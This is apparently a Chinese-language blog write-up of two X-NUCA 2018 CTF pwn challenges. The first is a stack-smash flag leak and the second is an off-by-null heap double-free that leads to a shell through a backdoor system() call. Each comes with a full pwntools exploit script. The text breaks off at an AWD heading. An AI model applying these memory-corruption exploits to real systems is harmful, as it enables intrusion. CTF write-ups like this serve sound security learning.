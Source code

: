 title: X-NUCA 2018个人赛/决赛PWN
categories:
- PWN
---

终于熬过考试周了...重装电脑加上配虚拟机博客环境前后花了快两天.寒假整理一下以前的题目吧,先是12月初的XNUCA总决赛和铁三总决赛.

# 个人赛

## PWN0(18solve)

- 个人赛签到题,一个gets栈溢出,有canary,只有一次输入机会,显然不是ROP的打法,flag在内存中,先让我们输入小于flag长度的任意字符,输入回车结束
- 这里利用stack smash,当canary存在时,如果发生栈溢出,程序会执行如下代码:

```c
__libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
```

- 因为flag在内存中,所以我们可以算出输入点和__libc_argv[0],也就是程序名称的偏移,填充后写入一根指针,利用报错信息打印flag,由于内存映射机制,所以程序中有时候会存在两个flag

```python
from pwn import *
r = process("./catch_me")
# for i in range(24):
r = remote("172.19.8.82",9999)
r.recvuntil("flag:")
r.sendline("")
payload = "a" * (0x7fffffffdf38 - 0x7fffffffde10) + p64(0x600CA0)
r.recvuntil("sure?")
r.sendline(payload)
r.recvuntil(": ")
flag = r.recv(32)
print flag
```

- 当时因为是给了一台内网的机器,没有pwntools,最后用的socket写的脚本,后来才知道有一个单文件库zio可以直接复制进去用.
- 然后并没有给pwn题的服务器和端口,最后只能用nmap扫描端口逐一nc来确定题目XD

## PWN1(10solve)

- 这就是一个堆题了,记得当时有几个师傅做的也非常快
- 扫一遍功能switch,发现有两个后门!输入1234和输入2333的时候会分别出发,1234就是一个malloc(0x20)然后向里面和bss段分别读入0x20,2333则是system(command),很明显这是要修改command为/bin/sh
- 分别查看几个基础功能函数,发现在new时,存在一个`scanf("%32s",ptr)`,也就是这里存在了一个off-by-null,scanf函数自动补的0使得当输入恰好为32位的时候,会有33位被赋值.
- 后面的功能函数则是才用了read函数,不存在溢出,在free处,也有对应的inuse数组作为防止double-free的保护,整理结构体发现

```c
typedef struct node{
    char content[32];
    char * nameptr;
};
```

- 也就是content刚好可以盖到nameptr指针,使得低位变成0,加上后门1234的偏移刚好可以获得指向相同堆块的指针,一发double解决,还要注意的是fastbin的验证条件.

```python
from pwn import *

r = process("./note")

def sa(a,b):
    r.sendlineafter(a,b)

def add(name,content):
    sa("command:\n","1")
    sa("name:",name)
    sa("content:",content)

def edit(index,name,content):
    sa("command:\n","2")
    sa("edit\n",str(index))
    sa("name:\n",name)
    sa("content:\n",content)

def show(index):
    sa("command:\n","3")
    sa("view",str(index))

def free(index):
    sa("command:\n","4")
    sa("id:",str(index))

def backdoor1(name,content):
    sa("command:\n","1234")
    sa("name:",name)
    sa("content:\n",content)

def getshell():
    sa("command:\n","2333")

def exp():
    backdoor1("backdoor","flagflag")
    add("name","0")
    add("name","1")
    add("name","2")
    add("name","3")
    add("name","4")
    add("name","5")
    add("name","6")
    add("name","7"*0x20)
    free(7)
    free(5)
    free(6)
    
    add(p64(0x602090-0x8),"fff")
    add("lll","lll")
    add("aaa","a")
    add("/bin/sh\x00","ggg")
    getshell()
    r.interactive()
    #add("name","/bin/sh\x00")
    # gdb.attach(r)
    

if __name__ == "__main__":
    sa("Please leave your name :",p64(0x21))
    exp()
```

# AWD

## pwn1